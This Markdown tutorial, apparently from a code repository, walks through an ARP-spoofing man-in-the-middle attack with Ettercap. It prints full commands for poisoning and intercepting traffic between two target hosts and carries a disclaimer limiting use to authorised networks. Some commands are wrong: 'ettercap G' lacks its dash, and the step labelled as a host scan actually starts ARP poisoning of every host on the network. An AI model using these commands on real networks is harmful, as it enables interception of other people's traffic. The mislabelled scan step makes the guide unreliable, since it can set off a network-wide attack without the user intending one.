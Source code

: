 # Disclaimer
This tutorial is for educational purposes only. Perform ARP spoofing attacks only on networks you own or have explicit permission to test. Unauthorized use of ARP spoofing can be illegal and unethical.

# Prerequisites
Ettercap Installed: Ensure Ettercap is installed on your system (refer to the Installation section).
Network Interface: Identify the network interface you'll use (e.g., eth0 or wlan0).
# Steps
### 1. Identify Network Interface
First, determine the network interface you will use. You can list network interfaces using the ifconfig or ip command:

```bash
ifconfig
```
or

```bash
ip a
```
Note the interface name (e.g., eth0 or wlan0).

### 2. Launch Ettercap
Start Ettercap in graphical mode:

```bash
sudo ettercap G
```
or in text mode (if you prefer):

```bash
sudo ettercap -T -i eth0
```
### 3. Scan for Hosts
In graphical mode:

Go to Hosts > Scan for hosts.
Wait for the scan to complete.
In text mode:

```bash
sudo ettercap -T -i eth0 -M arp:remote // //
```
This command scans the entire network connected to eth0.

### 4. Add Hosts to Target List
In graphical mode:

Go to Hosts > Host list.
Select the target hosts you want to ARP spoof.
Add the first host to Target 1.
Add the second host to Target 2.
In text mode:

Identify the IP addresses of the target hosts from the scan results. Then, use their IP addresses in the following command:

```bash
sudo ettercap -T -M arp:remote /<target1_IP>/ /<target2_IP>/
```
Replace <target1_IP> and <target2_IP> with the actual IP addresses of the target hosts.

### 5. Start ARP Spoofing
In graphical mode:

Go to Mitm > ARP poisoning.
Select Sniff remote connections.
In text mode:

```bash
sudo ettercap -T -M arp:remote /<target1_IP>/ /<target2_IP>/
```
### 6. Monitor Traffic
In graphical mode:

Go to View > Connections to monitor intercepted connections.
Select a connection to view detailed information.
In text mode:

Ettercap will display intercepted traffic in the terminal.

Example Command in Text Mode
Here's a complete command sequence for ARP spoofing between two hosts with IP addresses 192.168.1.5 and 192.168.1.10 on interface eth0:

```bash
sudo ettercap -T -i eth0 -M arp:remote /192.168.1.5/ /192.168.1.10/
```
Stopping the Attack
To stop the attack, press Ctrl+C in the terminal or close the Ettercap graphical interface.

